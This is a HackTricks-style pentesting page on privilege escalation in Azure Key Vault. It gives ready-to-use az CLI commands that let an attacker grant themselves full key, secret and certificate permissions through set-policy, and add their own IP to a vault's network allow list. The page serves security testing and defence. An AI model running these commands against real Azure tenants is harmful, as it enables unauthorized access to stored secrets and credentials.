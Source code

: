 # Az - Key Vault Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Azure Key Vault

For more information about this service check:

{{#ref}}
../az-services/az-keyvault.md
{{#endref}}

### `Microsoft.KeyVault/vaults/write`

An attacker with this permission will be able to modify the policy of a key vault (the key vault must be using access policies instead of RBAC).

```bash
# If access policies in the output, then you can abuse it
az keyvault show --name <vault-name>

# Get current principal ID
az ad signed-in-user show --query id --output tsv

# Assign all permissions
az keyvault set-policy \
  --name <vault-name> \
  --object-id <your-object-id> \
  --key-permissions all \
  --secret-permissions all \
  --certificate-permissions all \
  --storage-permissions all
```

### Modify Network Restrictions

It might be possible tthat you have enough permissions th access sensitive data (like the value of a secret) but you can't access it because the key vault is restricted to a specific network. If you have the permission to modify the network restrictions you can add your IP to the list of allowed IPs.

```bash
# Get the current network restrictions
az keyvault network-rule list --name <vault-name>

# Add your IP to the list
az keyvault network-rule add --name <vault-name> --ip-address <your-ip>
```


{{#include ../../../banners/hacktricks-training.md}}


